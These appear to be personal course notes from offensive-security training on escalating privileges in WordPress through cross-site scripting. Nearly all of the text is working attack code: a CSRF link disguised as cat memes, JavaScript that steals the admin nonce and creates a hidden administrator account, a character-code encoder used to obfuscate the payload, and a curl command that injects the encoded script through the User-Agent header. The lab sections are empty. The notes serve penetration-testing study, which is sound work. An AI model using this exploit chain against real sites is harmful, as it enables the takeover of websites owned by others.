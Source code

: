 # Privilege Escalation via XSS

CSRF example attack
>``` shell
><a href="http://fakecryptobank.com/send_btc?account=ATTACKER&amount=100000"">Check out these awesome cat memes!</a>
>```

Gathering WordPress Nonce
>``` shell
>var ajaxRequest = new XMLHttpRequest();
>var requestURL = "/wp-admin/user-new.php";
>var nonceRegex = /ser" value="([^"]*?)"/g;
>ajaxRequest.open("GET", requestURL, false);
>ajaxRequest.send();
>var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
>var nonce = nonceMatch[1];
>```

Creating a New WordPress Administrator Account
>``` shell
>var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
>ajaxRequest = new XMLHttpRequest();
>ajaxRequest.open("POST", requestURL, true);
>ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
>ajaxRequest.send(params);
>```

Minifying the XSS attack code
>``` shell
>Minify attack code into a one-liner: JS Compress (https://jscompress.com/).
>```

JS Encoding JS Function
>``` shell
>function encode_to_javascript(string) {
>            var input = string
>            var output = '';
>            for(pos = 0; pos < input.length; pos++) {
>                output += input.charCodeAt(pos);
>                if(pos != (input.length - 1)) {
>                    output += ",";
>                }
>            }
>            return output;
>        }
>        
>let encoded = encode_to_javascript('insert_minified_javascript')
>console.log(encoded)
>```

Launching the Final XSS Attack through Curl
>``` shell
>kali@kali:~$ curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,41,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59))</script>" --proxy 127.0.0.1:8080
>```

Lab 1 -
>``` shell
>
>```
>

Lab 2 -
>``` shell
>
>```
>

Lab 3 -
>``` shell
>
>```
>
